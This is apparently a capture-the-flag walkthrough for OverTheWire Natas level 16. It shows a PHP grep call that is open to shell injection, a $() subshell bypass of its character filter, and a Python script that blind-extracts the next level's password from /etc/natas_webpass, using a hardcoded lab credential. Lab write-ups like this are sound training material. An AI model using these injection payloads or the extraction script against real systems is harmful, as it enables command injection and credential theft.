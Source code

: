 # 🔐 Natas16 Walkthrough

This level is similar to Natas15, but now we have **extra restrictions**!  
Check the [source code](http://natas16.natas.labs.overthewire.org/index-source.html):

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
## 🚫 Forbidden characters
- `/`
- `[]`
- `;`
- `|`
- `&`
- `'`
- `"`
- `\`
- `backtick`

This blocks our previous command injection tricks. **BUT**, notice that `$` is **still allowed!** 💡 That’s our way in.

 ## 🌀 Subshell

Since `` '/[;|&`\'"]/' `` are forbidden, we can’t directly inject multiple commands. Luckily, the `$()` syntax is allowed, which executes a command inside a subshell. A ***subshell*** is a way to execute a command inside another command in the shell. Whatever the subshell outputs can then be used or appended in the outer command.

```shell
                                        User Input
                                    ------------------
                                      "a$(command)b"
                                            |
                                            v
                                    PHP passthru() call
                                            |
                                            v
                        Shell sees: grep -i "a$(command)b" dictionary.txt
                                            |
                                            v
                                Subshell executes first:
                                        $(command)
                                            |
                                            v
                            Output of command replaces $(command)
                                            |
                                            v
                        Shell executes final grep command:
                        grep -i "a<command_output>b" dictionary.txt
                                            |
                                            v
                                  Result returned to user

```

## 🔍 Testing a character
Input:
```shell
$(grep e /etc/natas_webpass/natas17)squid
```


- If **e** is in the password, squid does not appear in the output. ✅

- If **e** is not, squid appears. ❌

This way, we can test each possible character in the password **without using the forbidden characters.** 


***Test:***


| INPUT    | OUTPUT |
| -------- | ------- |
| $(grep **e** /etc/natas_webpass/natas17)squid| None    |
| $(grep **a** /etc/natas_webpass/natas17)squid | squid, squid's, squidded, squidding, squids    |



Clearly, the password contains `e` and **doesnt** contain `a`. Now, as before we shall automate this process.

## Python script

This script was written with readability in mind. I've added slightly altered version of the script to this directory which has some "animations" in the console log so, feel free to use that one.

```python
import requests
import string
import time

# =====================
# === CONFIGURATION ===
# =====================
url = "http://natas16.natas.labs.overthewire.org/"
authUsername = "natas16"
authPassword = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

# Possible characters in the password (letters + digits)
charData = string.ascii_letters + string.digits

# =====================================
# === STEP 1: Find valid characters ===
# =====================================

matchingCharData = ""  # This will hold characters that exist in the password

print("Step 1: Testing which characters exist in the password...\n")

for i in charData:
    # Create the payload using subshell injection.
    # "$(grep <char> /etc/natas_webpass/natas17)squid" will execute grep on the password file.
    # If <char> exists in the password, 'squid' will NOT appear in the response.
    injection = f"$(grep {i} /etc/natas_webpass/natas17)squid"
    tempUrl = f"{url}?needle={injection}&submit=Search"

    # Send the HTTP GET request with basic auth
    response = requests.get(tempUrl, auth=(authUsername, authPassword))

    # Check response for presence of 'squid'
    if 'squid' not in response.text:
        # Character exists in the password
        matchingCharData += i
        print(f"Valid character found: '{i}'")

print(f"\nPossible password characters: {matchingCharData}\n")

# ==========================================
# === STEP 2: Brute-force password order ===
# ==========================================

password = ""  # To build the password incrementally
print("Step 2: Brute-forcing password character by character...\n")

# Natas passwords are 32 characters long
while len(password) < 32:
    for char in matchingCharData:
        # Attempt to see if the password starts with the current guess
        attempt = password + char
        injection = f"$(grep ^{attempt} /etc/natas_webpass/natas17)squid"
        tempUrl = f"{url}?needle={injection}&submit=Search"

        response = requests.get(tempUrl, auth=(authUsername, authPassword))

        if 'squid' not in response.text:
            # Correct next character found
            password += char
            print(f"Password so far: {password}")
            break  # Move to next character

# Print final password
print(f"\nPassword for natas17: {password}")
```

The output should be your natas17 password! (:


